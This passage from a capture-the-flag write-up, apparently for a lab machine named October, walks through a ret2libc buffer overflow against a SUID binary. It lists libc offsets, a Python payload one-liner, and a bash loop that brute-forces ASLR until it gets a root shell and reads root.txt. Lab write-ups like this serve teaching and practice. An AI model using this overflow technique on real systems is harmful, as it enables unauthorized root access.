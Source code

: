For this libc base (which is right 1/512 times):

```

exit: 0xb75f8000+0x33260 = 0xB762B260
system: 0xb75f8000+0x40310 = 0xB7638310
/bin/sh: = 0xb75f8000+0x162bac = 0xB775ABAC

```

I’m going to overflow such my buffer goes [JUNK] + SYSTEM (ret address overwrite) + EXIT (next return address) + “/bin/sh” (args).

### Exploit

If ASLR weren’t enabled, I could just do this:

```

www-data@october:/dev/shm$ /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"');

```

Because ASLR is enabled, I’ll do it in a loop until I get a shell:

```

www-data@october:/dev/shm$ while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
*** Error in `/usr/local/bin/ovrflw': munmap_chunk(): invalid pointer: 0xbfeeae83 ***
Aborted (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Illegal instruction (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
# 

```

From there I can grab `root.txt`:

```

# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
6bcb9cff...

```
